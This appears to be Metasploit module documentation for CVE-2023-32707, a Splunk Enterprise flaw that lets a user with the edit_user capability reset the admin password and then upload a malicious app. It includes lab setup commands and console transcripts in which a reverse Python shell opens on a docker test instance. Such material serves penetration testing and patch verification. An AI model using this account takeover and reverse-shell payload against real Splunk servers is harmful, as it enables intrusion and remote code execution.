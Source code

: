## Vulnerable Application

### Description

An authorization issue within Splunk Enterprise allows any user with the edit_user capability to take over
the admin account (or any other chosen account) by simply changing its password.

On June 1, 2023, Splunk released a software update that addressed this vulnerability (CVE-2023-32707).

The following products are affected:

Splunk Enterprise:
 - from 8.1 before 8.1.14
 - from 8.2 before 8.2.11
 - from 9.0 before 9.0.5

Splunk Cloud Platform:
 - before 9.0.2303.100

### Exploitation

This module exploits this authorization issue to take over the admin account (or any other account with
the capability 'install_apps') to deploy an app within Splunk, aiming to achieve remote code execution.

To achieve that this module:
- Will change the password of the targeted user;
- Will deploy an app with a malicious payload;

After the execution the cleanup method will be called and:
- Should delete the deployed app;

### Setup

Create a Splunk's docker container with the following command:

```bash
docker run -d -p 8000:8000 -p 8089:8089 -e "SPLUNK_START_ARGS=--accept-license" -e "SPLUNK_PASSWORD=password" --name splunk-9.0.4 splunk/splunk:9.0.4
```

```bash
    # Creating non-admin user
    $ curl -k -u admin:password https://localhost:8089/services/authentication/users -d name=redway -d password=changeme -d roles=user -d createrole=1 -X POST
    # Adding capability to edit_user to the non-admin role
    $ curl -k -u admin:password https://localhost:8089/services/authorization/roles/user-redway -d capabilities=edit_user -X POST
```

:exclamation: One must log in at least once on the web interface (https://localhost:8000). Otherwise, this module will fail to get the CSRF
token on the `appinstall`.

## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### USERNAME (required)

The username that with the capability `edit_user` to authenticate with.

### PASSWORD (required)

The password of the user to authenticate with.

### RHOSTS (required)

The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html

### RPORT (required)

The target port (TCP)

### TARGET_USER (required)

The username to change the password for (default: admin)

### TARGET_PASSWORD

The new password to set for the admin user (default: random)

### APP_NAME

The name of the app to upload (default: random)

## Scenarios

### Docker container running Splunk 9.0.4


If the user you have access doen't have the capability `edit_user` the module will fail as shown below:

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > check

[*] Splunk version 9.0.4 detected
[*] 127.0.0.1:8000 - The target is not exploitable. User 'redway' does not have 'edit_user' capability
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) >

```

If the targeted user does have the capability `install_apps` the module will fail as shown below:

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Splunk version 9.0.4 detected
[+] The target appears to be vulnerable. User 'redway' has 'edit_user' capability
[*] Changing 'user' password to yMDIOKyrHoUx
[+] Password of the user 'user' has bee changed to yMDIOKyrHoUx
[-] Exploit aborted due to failure: bad-config: The user 'user' does not have 'install_app' capability. You may consider to target other user
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) >
```

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > options

Module options (exploit/multi/http/splunk_privilege_escalation_cve_2023_32707):

   Name             Current Setting      Required  Description
   ----             ---------------      --------  -----------
   APP_NAME                              no        The name of the app to upload (default: random)
   PASSWORD         changeme             yes       The password for the specified username
   Proxies          http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           127.0.0.1            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            8000                 yes       The target port (TCP)
   SSL              false                no        Negotiate SSL/TLS for outgoing connections
   TARGET_PASSWORD                       no        The new password to set for the admin user (default: random)
   TARGET_USER      admin                yes       The username to change the password for (default: admin)
   USERNAME         redway               yes       The username with "edit_user" role to authenticate as
   VHOST                                 no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.17.0.1       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The system shell to use


Exploit target:

   Id  Name
   --  ----
   0   Splunk <= 9.0.5, 8.2.11, and 8.1.14 / Linux



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Splunk version 9.0.4 detected
[+] The target appears to be vulnerable. User 'redway' has 'edit_user' capability
[*] Changing 'admin' password to srviInIpi
[+] Password of the user 'admin' has bee changed to srviInIpi
[*] Uploading app stringtough
[*] Uploading file stringtough
[*] Creating an application package named: stringtough
[+] stringtough successfully uploaded
[*] Waiting for session
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:52672) at 2023-09-12 15:19:53 +0200

id
uid=41812(splunk) gid=41812(splunk) groups=41812(splunk),999(ansible)
pwd
/opt/splunk/etc/apps/stringtough/bin
exit
[*] 127.0.0.1 - Command shell session 1 closed.
```

### Docker container running Splunk 9.0.5

On a **non-vulnerable** version the module will fail as shown below:

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. Detected Splunk version 9.0.5 which is not vulnerable "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) >
```

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. Detected Splunk version 9.0.5 which is not vulnerable "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) >
```
